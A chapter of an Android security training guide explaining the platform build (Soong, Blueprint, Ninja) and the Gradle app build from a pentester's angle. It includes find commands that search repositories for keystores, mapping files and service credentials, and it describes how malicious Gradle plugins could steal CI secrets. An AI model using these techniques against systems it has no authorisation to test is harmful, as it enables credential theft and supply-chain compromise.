# 08 — The Android Build System

> After this chapter you will be able to read any `Android.bp` or `build.gradle` file and say exactly
> what binary artefact it produces, which of those artefacts an attacker can influence, and what a
> build file tells you about an application's security posture before you have even opened the APK.

**Prerequisites:** [00-Introduction](../00-Introduction/README.md),
[02-Linux-Basics](../02-Linux-Basics/README.md),
[06-Android-Architecture](../06-Android-Architecture/README.md),
[07-AOSP](../07-AOSP/README.md)
**Applies to:** AOSP 7 (Nougat) through AOSP 16 for the platform build; Android Gradle Plugin 3.x
through 8.x for the app build. Version differences are flagged in Version Matrix tables.

---

## Table of Contents

1. [Introduction](#1-introduction)
2. [High-Level Architecture](#2-high-level-architecture)
3. [Deep Internal Working](#3-deep-internal-working)
4. [Source Code Walkthrough (AOSP)](#4-source-code-walkthrough-aosp)
5. [Security Perspective](#5-security-perspective)
6. [Reverse Engineering Perspective](#6-reverse-engineering-perspective)
7. [Dynamic Analysis](#7-dynamic-analysis)
8. [Static Analysis](#8-static-analysis)
9. [Examples](#9-examples)
10. [Common Interview Questions](#10-common-interview-questions)
11. [Common Mistakes](#11-common-mistakes)
12. [Hands-on Labs](#12-hands-on-labs)
13. [Summary](#13-summary)
14. [References](#14-references)

---

## 1. Introduction

### Two build systems, one word

The phrase "the Android build system" is ambiguous, and the ambiguity causes real confusion in real
engagements. There are **two entirely separate build systems** in the Android world, and they share
almost nothing:

| | **(A) The platform build** | **(B) The app build** |
|---|---|---|
| Who runs it | Google, Samsung, Xiaomi, an OEM, or you when you build AOSP | An app developer, or a CI server |
| What it produces | `system.img`, `vendor.img`, `boot.img`, `sepolicy`, framework JARs, the whole OS | One `.apk` or one `.aab` |
| Build files | `Android.bp` (Blueprint), legacy `Android.mk` (Make) | `build.gradle` / `build.gradle.kts` |
| Engine | Soong → Ninja (with Kati translating legacy Make) | Gradle → the Android Gradle Plugin (AGP) |
| Commands | `source build/envsetup.sh`, `lunch`, `m`, `mm`, `mma` | `./gradlew assembleRelease`, `./gradlew bundleRelease` |
| Language of build files | A declarative JSON-like DSL (Blueprint) | A Turing-complete script (Groovy or Kotlin) |
| Can the build file execute arbitrary code? | **No**, by design | **Yes**, by design — and this is a security problem |

That last row is the single most important sentence in this chapter for a security professional. Hold
on to it; section 5 is largely about its consequences.

This chapter keeps the two systems in separate lanes throughout. Where a heading applies to only one,
it is marked **(A) Platform** or **(B) App**.

> **Definition**
> A **build system** is a program whose job is to turn source files into shippable artefacts by
> running the right tools, in the right order, only when necessary. The three hard problems it solves
> are *dependency ordering* (compile the library before the thing that uses it), *incrementality*
> (don't redo work whose inputs did not change), and *reproducibility* (the same inputs must produce
> the same outputs). Every design decision in Soong and in Gradle is a trade-off between those three.

### Why you should care as a security person

Someone new to security testing thinks the interesting artefact is the APK. It is not — the APK is the
*output*. The build files are the *specification* that produced it, and they contain information the
APK does not:

- **The build file names the dependencies with their versions.** The APK contains only the merged,
  shrunk, obfuscated result. A `build.gradle` line reading `implementation 'com.example:sdk:1.2.3'`
  tells you exactly which third-party code is present and exactly which version — which you can then
  check against known-vulnerable ranges. From the APK alone you would be guessing.
- **The build file reveals what was turned off.** `minifyEnabled false`, `debuggable true`,
  `shrinkResources false`, a `signingConfig` with a checked-in password — these are decisions,
  recorded in a file, that you can quote verbatim in a report.
- **The build file is executable.** In Gradle, a build script is a program. A malicious dependency can
  ship a Gradle plugin that runs code on the developer's laptop or the CI runner **at build time**,
  with the credentials of whoever ran the build. This is a compromise of the software supply chain,
  not of the app, and it is far more valuable to an attacker than anything in the shipped APK.
- **The build file explains anomalies.** When an APK contains an exported `BroadcastReceiver` that
  appears nowhere in the source you were given, the answer is almost always the *manifest merger*
  pulling it in from a library. You cannot explain that from the APK; you can explain it instantly
  from the merged manifest report the build produces.

> **Mental Model**
> Think of the APK as a *photograph* of a building and the Gradle files as its *architectural plans*.
> The photograph shows you what is visible from outside. The plans tell you which contractor supplied
> the wiring, whether the fire doors were value-engineered out, and who signed off. In a
> source-assisted review you get the plans. Read them first.

### What would break without a build system

Imagine building an Android app with no build system at all. You would have to, by hand:

1. Run `kotlinc` and `javac` over hundreds of source files in dependency order, with a classpath
   naming forty JARs you downloaded manually.
2. Run `aapt2 compile` on every one of two thousand resource files, then `aapt2 link` to produce
   `resources.arsc` and the binary `AndroidManifest.xml`, generating an `R.java` of integer IDs.
3. Feed every `.class` file through a desugaring step so that Java 8 lambdas and `java.time` work on
   Android 5.
4. Run `d8` or `r8` to translate the JVM bytecode into DEX (Dalvik Executable) bytecode.
5. Compile the C++ with the NDK toolchain, once per ABI, and place the results in the exactly correct
   `lib/<abi>/` directory names.
6. Merge your manifest with the manifests of every library, resolving conflicts by hand.
7. ZIP everything with a specific compression policy, align uncompressed entries to 4-byte (or 16 KB
   page) boundaries, and then sign the result with up to four different signature schemes.

Any single mistake in that list produces an APK that installs and then crashes in a way that tells you
nothing. The build system exists because that pipeline is long, order-sensitive, and unforgiving. And
because it is long, *every one of those stages is a place where security-relevant configuration lives*.

### A plain-English tour of the platform build

The Android platform is roughly one hundred thousand source files across a few thousand directories.
Google's original approach (2008–2016) was GNU Make: every directory contained an `Android.mk` file,
and the top-level Makefile `include`d all of them into one enormous Make instance. It worked, but the
"null build" — running `make` when nothing has changed — took several minutes purely to re-parse the
Makefiles.

**Soong** replaced it. Soong reads `Android.bp` files, which are *declarative* — they describe modules
and their properties, they contain no loops, no conditionals, no shell escapes, and no way to compute
a value. Soong then emits a Ninja build graph. **Ninja** is a deliberately dumb, deliberately fast
build executor: it does not parse a language, it reads a pre-generated dependency graph and runs
commands. **Kati** is the bridge: it reads the remaining legacy `Android.mk` files and *also* emits
Ninja, so both systems feed one graph.

> **Definition**
> **Soong** is the Go program that reads `Android.bp` files and generates a Ninja build graph.
> **Blueprint** is the library Soong is built on, and also the name of the file format's syntax.
> **Ninja** is the low-level build executor that actually runs compiler commands.
> **Kati** is a Make-to-Ninja translator, written in C++ and Go, that lets legacy `Android.mk` files
> participate in the same build graph.

### A plain-English tour of the app build

An Android application is built by **Gradle**, a general-purpose JVM build tool that knows nothing
about Android on its own. Android knowledge is supplied by a *plugin*: the **Android Gradle Plugin**
(AGP), published by Google as `com.android.tools.build:gradle`. When your `build.gradle` says
`plugins { id 'com.android.application' }`, you are loading AGP, and AGP is what registers the
hundreds of tasks (`compileDebugKotlin`, `mergeReleaseResources`, `minifyReleaseWithR8`,
`packageRelease`, …) that constitute an Android build.

Gradle's model is a **directed acyclic graph of tasks**. Each task declares its inputs and its
outputs. Gradle computes which tasks are out of date by hashing inputs, then runs only those, in
dependency order, in parallel where it can.

The crucial and uncomfortable fact is that a `build.gradle` file is **code** — Groovy or Kotlin — that
Gradle *executes* to discover what the tasks are. There is no sandbox. `build.gradle` can
open sockets, read `~/.ssh/id_rsa`, and exfiltrate your CI secrets, and it runs before a single line of
your app has been compiled.

> **Warning**
> Never run `./gradlew` on an untrusted project — including an APK's decompiled source that someone
> reconstructed into a Gradle project, a "proof of concept" repository from a bug report, or a client
> codebase you have not reviewed. Opening the project in Android Studio is enough: Studio runs the
> Gradle configuration phase to populate the IDE. Treat "import this Android project" as equivalent to
> "run this shell script as me". Analyse untrusted build files by reading them, in a text editor, in a
> container, offline.

### The pipeline in one paragraph

For an app: your Kotlin and Java sources are compiled to JVM `.class` files; those are *desugared* so
newer language features run on older Android; `D8` translates them to DEX, or `R8` shrinks, optimises,
obfuscates and translates them in one pass; meanwhile `aapt2` compiles each resource file to a binary
intermediate and then links all of them plus all libraries' resources into `resources.arsc` and a
binary `AndroidManifest.xml`; the manifest merger has already combined your manifest with every
library's manifest; native code is built separately by CMake or `ndk-build` through the NDK; all of it
is ZIPped, aligned by `zipalign`, and signed by `apksigner`. Section 3 takes that paragraph apart
stage by stage.

---

## 2. High-Level Architecture

### 2.1 The two systems side by side



The two boxes never touch. An app developer never runs Soong; an OS engineer never runs Gradle for the
platform (though AOSP does contain Gradle projects for a handful of standalone tools). The dotted line
is the only relationship: the platform build produces the runtime environment in which the app build's
output executes, which is why the platform's `targetSdkVersion` gating and SELinux policy — both
platform-build artefacts — determine what the app is allowed to do.

`build.gradle` is coloured as attacker-influenced input. That is not an error. In a supply-chain
threat model, the contents of your build script are partially determined by remote parties: the
plugins you apply and the dependencies you resolve are fetched over the network, and both can execute
code. Section 5.4 develops this.

### 2.2 The platform build graph



Read this left to right. Everything begins with **configuration**: `lunch aosp_cf_x86_64_phone-trunk_staging-userdebug`
sets environment variables naming the product and the build variant. Those variables are consumed by
`BoardConfig.mk` and the product makefiles, which decide which modules are included in the image, what
the partition layout is, and dozens of feature flags.

Then **parsing**. Soong walks the tree collecting `Android.bp` files and produces a single Ninja file.
Kati does the same for `Android.mk`. Both outputs are concatenated into one graph. Crucially, this is
where the cost of a "null build" now lives — and it is why Soong exists: parsing is done once and
cached, so an unchanged tree re-runs Ninja only, which is close to instantaneous.

Then **execution**. Ninja runs the actual tools. Note `checkpolicy` and `secilc` in that list: SELinux
policy is compiled by the same build graph as everything else, from `.te` source files, and is
therefore subject to the same module and dependency rules. See
[22-SELinux](../22-SELinux/README.md).

### 2.3 The app build pipeline — the big diagram

This is the diagram to memorise. Every stage in it is a place where a security-relevant decision is
taken.



Now read it in words, because a diagram this size needs a narration.

**Inputs.** Four kinds of input feed the build: managed source (Java/Kotlin), resources, the manifest,
and native source. A fifth input — **dependencies** — is coloured as attacker-influenced because it
arrives over the network from a repository you do not control, and because it contributes to *three*
different stages: it injects manifest entries, it injects resources, and it injects code. A sixth
input, the variant source sets (`src/debug`, `src/pro`), is what makes build variants possible.

**Manifest processing runs first and independently.** The merger combines your `AndroidManifest.xml`
with the manifest of the build type, the manifest of each product flavour, and the manifest of every
library in the dependency graph. Placeholders such as `${applicationId}` are substituted. The output is
a single merged manifest plus a *report file* that records, line by line, where each element came from.
That report is one of the most valuable artefacts in a source-assisted review, and section 3.7 is
devoted to it.

**Resources are compiled twice.** `aapt2 compile` converts each individual resource file into a binary
`.flat` intermediate — this is per-file and therefore incremental. `aapt2 link` then takes every
`.flat` from your project and from every library, resolves the overlay order, assigns numeric IDs,
and emits `resources.arsc` (the resource table), the binary-encoded manifest, and `R.java`/`R.jar`
containing the integer constants. `R.java` must exist before `javac` runs, which is why the resource
pipeline feeds into the code pipeline.

**Managed code compiles, desugars, then dexes.** Kotlin compiles first (because Java can reference
Kotlin output through the Kotlin compiler's stub generation), then Java. Annotation processors run and
may generate additional sources. Everything becomes JVM `.class` files. Those `.class` files contain
constructs Android's runtime may not support on older API levels, so a **desugaring** step rewrites
them. Then the fork: if `minifyEnabled` is false, `D8` translates `.class` to `.dex`; if it is
true, `R8` does shrinking, optimisation, obfuscation and translation in one pass and additionally emits
`mapping.txt`, which is the file that lets you de-obfuscate a stack trace — and the file whose leakage
undoes the obfuscation entirely.

**Native code is a completely separate sub-build.** Gradle shells out to CMake or `ndk-build`, once per
ABI in `abiFilters`, producing `.so` files that are placed in `lib/<abi>/`. Nothing in the managed
pipeline knows or cares about this; R8 does not shrink native code and does not know which native
symbols reference which Java methods, which is the source of a classic `NoSuchMethodError` when a
`Java_com_example_Foo_bar` JNI symbol's Java counterpart is obfuscated away.

**Packaging is a ZIP with rules.** Everything is combined into a ZIP. `zipalign` then adjusts padding
so that uncompressed entries begin at aligned offsets, which lets Android `mmap` them directly.
Finally `apksigner` signs. The order — align, *then* sign — is mandatory, because the signature covers
the final byte layout.

**The bundle path diverges at packaging.** Instead of producing one APK, `bundletool` produces an
`.aab`, which is a pre-APK archive containing all resources and code in a splittable form. Google Play
then generates and signs the per-device split APKs itself. Consequently the certificate that signs
what the user installs is **not** the certificate the developer holds, unless they opted out of Play
App Signing. Section 3.12 covers the security consequences.

### 2.4 The trust boundaries of a build



There is no trust boundary inside the developer's machine. Once an artefact is resolved and a plugin is
applied, it runs with the full privileges of the user who typed `./gradlew`. On a CI runner, that user
usually holds the release signing key, the Play Console service account, and cloud deployment
credentials. The blast radius of a malicious Gradle plugin is therefore *the entire release channel*,
not one build.

JitPack is highlighted specifically because it is a service that builds a library **from a git
reference on demand**. `implementation 'com.github.someuser:somelib:master-SNAPSHOT'` means "build
whatever is on that branch right now and give it to me". The maintainer, or anyone who compromises the
maintainer's GitHub account, can change what you compile against without changing a single character
in your project.

### 2.5 Where each artefact ends up



Knowing this layout is not trivia. On a source-assisted engagement you will frequently be handed a
repository that has been built once. The `build/` directory contains the merged manifest, the R8
mapping file, the full resource merge, and the intermediate DEX — all of which answer questions faster
than re-running the build. Ask for it, or run one build yourself and then read `build/`.

> **Pentester's Note**
> The first three commands to run on any Android source repository you are handed:
> ```bash
> # host — in the project root
> find . -name "build.gradle*" -o -name "settings.gradle*" -o -name "*.properties" | grep -v /build/
> find . -path "*/intermediates/merged_manifests/*/AndroidManifest.xml"
> find . -name "mapping.txt" -o -name "*.jks" -o -name "*.keystore" -o -name "google-services.json"
> ```
> The first tells you the project's shape. The second gives you the true component surface. The third
> tells you whether signing material or service credentials are checked into the repository, which is
> a finding on its own and takes ten seconds to check.

---

## 3. Deep Internal Working

This section is long because the build is long. It is split into two halves that mirror the two
systems: **3.1–3.6 are the platform build (A)**, and **3.7–3.20 are the app build (B)**. If you only
test applications, you may read the platform half quickly — but do not skip it, because the moment a
client hands you a custom ROM or an OEM's pre-installed application, the platform build is the thing
that put it there.

---

### (A) THE PLATFORM BUILD

### 3.1 What the platform build is actually doing

**What.** The platform build turns roughly two thousand git repositories, containing C, C++, Java,
Kotlin, Rust, Go, assembly, AIDL, SELinux policy, XML and shell, into a set of partition images that a
bootloader can flash and a kernel can mount.

**Why it needs its own build system.** Three properties make the Android platform unlike a normal
software project. First, **scale**: a full build executes on the order of a hundred thousand compiler
invocations. Second, **multi-target**: almost every module is built more than once — for the device
and for the host, for 32-bit and 64-bit, for the system partition and for the vendor partition, for
the main image and for an APEX container, and possibly with sanitizers. Third, **partition
correctness**: a module built for `/vendor` must link only against a frozen, versioned subset of the
system's native interfaces, and the build system is the thing that enforces that rule.

**When it runs.** Interactively on an engineer's workstation via `m`, and on Google's or an OEM's build
farm for every release candidate.

**Where the entry point is.** `build/envsetup.sh` (a symlink into `build/make/envsetup.sh`) defines the
shell functions. The real driver is `soong_ui`, whose Go source lives in `build/soong/ui/`.

> **Definition**
> A **module** in the platform build is a named unit of output — a library, a binary, an APK, a set of
> files copied into an image. Every module has a **type** (`cc_library`, `java_library`, …), a unique
> `name`, and a set of properties. The name is globally unique across the whole tree, which is why AOSP
> module names look like `libbinder`, `services.core`, `framework-minus-apex`.

#### The command sequence, and what each step really does

```bash
# host — from the root of an AOSP checkout
source build/envsetup.sh
lunch aosp_cf_x86_64_phone-trunk_staging-userdebug
m -j$(nproc)
```

| Step | What it does internally |
|---|---|
| `source build/envsetup.sh` | Defines shell functions (`lunch`, `m`, `mm`, `mma`, `croot`, `godir`, `hmm`) and puts `out/host/<os>/bin` on `PATH`. Nothing is built. |
| `lunch <product>-<release>-<variant>` | Sets `TARGET_PRODUCT`, `TARGET_RELEASE`, `TARGET_BUILD_VARIANT`, `TARGET_ARCH` and dozens of other environment variables. On older trees the form is `<product>-<variant>` with no release axis. |
| `m` | Runs `soong_ui --make-mode`, which (1) runs Soong over every `Android.bp`, (2) runs Kati over every `Android.mk`, (3) concatenates the resulting Ninja files, (4) runs Ninja. |

The three build **variants** are a security-relevant choice, not a convenience:

| Variant | `ro.debuggable` | `ro.secure` | `adb root` | ADB default | Extra modules | Use |
|---|---|---|---|---|---|---|
| `user` | 0 | 1 | Refused | Off | Only `user`-tagged | The build that ships to customers |
| `userdebug` | 1 | 1 | Allowed | Off | `debug`-tagged too | The build QA and security researchers want |
| `eng` | 1 | 0 | Allowed, and `adbd` may start as root | On | Everything, including `eng`-tagged | Developer builds; never shipped |

> **Pentester's Note**
> `adb shell getprop ro.build.type` on a client's device tells you which of these you are holding. If a
> production handset, a kiosk, a set-top box or an in-vehicle unit reports `userdebug` or `eng`, stop
> and write it up before you test anything else. It means `run-as` works on every application, `adb
> root` works, and in the `eng` case SELinux may be permissive. That single property can be worth more
> than the rest of the engagement, and it is the platform build system that decided it — via the
> `LOCAL_MODULE_TAGS` / variant machinery, not via any application's code.

#### `m`, `mm`, `mma` and friends

| Command | Meaning | When you use it |
|---|---|---|
| `m` | Build the default target set (`droid`) for the whole tree | Full image build |
| `m <module>` | Build one module by name, plus its dependencies | Rebuilding `libbinder` only |
| `m installclean` | Remove installed artefacts but keep object files | After a `lunch` change |
| `mm` | Build only the modules defined in the current directory's `Android.bp`, **without** rebuilding dependencies | Fast iteration when dependencies are already built |
| `mma` | Like `mm`, but **also** builds all dependencies | First build in a directory |
| `mmm <dir>` | `mm` for a named directory instead of the current one | Scripting |
| `mmma <dir>` | `mma` for a named directory | Scripting |
| `m snod` | "System, No Dependencies" — repack `system.img` from whatever is already in `out/` | Rapid image turnaround while patching one file |
| `m dist` | Build and copy release artefacts into `out/dist/` | What a build farm runs |
| `m nothing` | Run only the parsing phase | Measuring null-build time; validating `Android.bp` syntax |

> **Under the Hood**
> `m snod` is the one to remember for research. Once you have a full build, you can drop a patched
> binary or a modified `sepolicy` into `out/target/product/<device>/system/` and run `m snod` to get a
> flashable `system.img` in under a minute, without the build system re-deriving whether your change
> was legitimate. This is the standard loop for platform vulnerability research: patch, `snod`, flash,
> test. It is also why `out/` should be treated as untrusted if someone else produced it — a "prebuilt"
> image may contain files that no source in the tree ever produced.

### 3.2 Blueprint syntax and `Android.bp` in detail

A `Android.bp` file is a list of **module declarations**. The syntax deliberately resembles JSON so
that it can be parsed, rewritten and diffed by machine.

```
// AOSP tree — a representative Android.bp
cc_library_shared {
    name: "libexample",
    srcs: [
        "src/example.cpp",
        "src/helper.cpp",
    ],
    exclude_srcs: ["src/example_test.cpp"],
    shared_libs: [
        "liblog",
        "libbinder",
    ],
    static_libs: ["libexample_util"],
    header_libs: ["libexample_headers"],
    export_include_dirs: ["include"],
    cflags: [
        "-Wall",
        "-Werror",
        "-DEXAMPLE_BUILD=1",
    ],
    vendor_available: true,
    min_sdk_version: "29",
    apex_available: [
        "//apex_available:platform",
        "com.android.example",
    ],
    sanitize: {
        cfi: true,
        integer_overflow: true,
    },
    visibility: ["//frameworks/base:__subpackages__"],
}
```

Everything about that file is *data*. There is no `if`, no `for`, no `$(shell …)`, no way to read an
environment variable. Conditional behaviour is expressed by structured properties (`arch: { arm64: {
… } }`, `target: { android: { … } }`), or by `soong_config_module_type`, which lets a product
configuration select among *pre-declared* alternatives — not compute arbitrary ones.

> **Mental Model**
> Make is a *program that computes a build*. Blueprint is a *description of a build*. That single
> difference is why Soong builds are fast, analysable, and — importantly for you — **statically
> auditable**. You can answer "which modules link against `libcrypto`?" by grepping `Android.bp` files
> and be confident the answer is complete. You can never be confident of the same answer from
> `Android.mk`, because a Makefile can compute a library name at build time.

#### Module types you will actually meet

| Module type | Produces | Notes for a reviewer |
|---|---|---|
| `cc_library` | Both a `.so` and a `.a` | Convenience wrapper that creates `_shared` and `_static` variants |
| `cc_library_shared` | `.so` | Check `vendor_available`, `apex_available`, `stubs` |
| `cc_library_static` | `.a` | Linked into consumers; no independent presence on device |
| `cc_library_headers` | Nothing on disk | Header-only dependency; `export_include_dirs` is the payload |
| `cc_binary` | An executable in `/system/bin` or `/vendor/bin` | Pair with the `init.rc` that starts it |
| `cc_test` | A gtest binary | Frequently left on `userdebug` images; a source of privileged, poorly-reviewed code |
| `java_library` | A `.jar` of DEX or class files | `installable: true` means it lands on the device |
| `java_import` | Wraps a prebuilt `.jar` | **Prebuilt** — the source is not in the tree. Always flag these. |
| `java_sdk_library` | A library with a versioned public API surface | The mechanism behind `<uses-library>` |
| `android_app` | An APK | `certificate:` property decides which platform key signs it |
| `android_app_import` | Wraps a prebuilt APK | Same warning as `java_import`, and far more common on OEM trees |
| `android_library` | An AAR-equivalent | Contributes resources and a manifest |
| `android_test` | A test APK | |
| `filegroup` | A named list of files | Used to share `srcs` between modules; follow it when tracing inputs |
| `genrule` | Arbitrary output from a shell command | **The one escape hatch.** See the warning below. |
| `prebuilt_etc` | A file copied into `/system/etc` (or vendor equivalent) | How config files, permission XML and public-key blobs get onto the device |
| `sh_binary` | A shell script installed as an executable | |
| `apex` | An APEX container (a signed, mountable module) | Has its own key, its own manifest, its own version |
| `aidl_interface` | Generated Java/C++/Rust/NDK bindings from `.aidl` | The definition of a Binder interface; see [25-Binder](../25-Binder/README.md) |
| `rust_library` / `rust_binary` | Rust artefacts | Increasingly common in newer AOSP for parsers |
| `cc_defaults` / `java_defaults` | A reusable property bundle | `defaults: ["x"]` pulls it in; you must follow it to see the real flags |

> **Warning**
> `genrule` is the hole in Blueprint's "no arbitrary code" guarantee. A `genrule` declares a `cmd`
> string that Ninja executes in a shell, with `$(in)`, `$(out)` and `$(location <tool>)` substitutions.
> It is sandboxed to declared inputs and outputs in modern Soong, but the command itself is arbitrary.
> When you audit an unfamiliar vendor tree, `grep -rn "genrule" --include=Android.bp` and read every
> `cmd:` you find. That is where a build-time backdoor would live in a Soong-based tree, because it is
> the only place a command string can appear.

#### Properties with direct security meaning

| Property | Meaning | Why you care |
|---|---|---|
| `certificate:` | Which signing key signs an `android_app` — `"platform"`, `"shared"`, `"media"`, `"testkey"`, or a named key module | A `certificate: "platform"` app shares a UID with `system_server` if it also declares `android:sharedUserId="android.uid.system"`. Compromising it compromises the platform. |
| `privileged: true` | Installs the APK into `priv-app/` | Privileged apps can be granted `signature|privileged` permissions. Always enumerate these. |
| `vendor: true` / `vendor_available: true` | Builds for `/vendor` / builds a vendor-usable variant | Determines which VNDK/LLNDK surface it may link against |
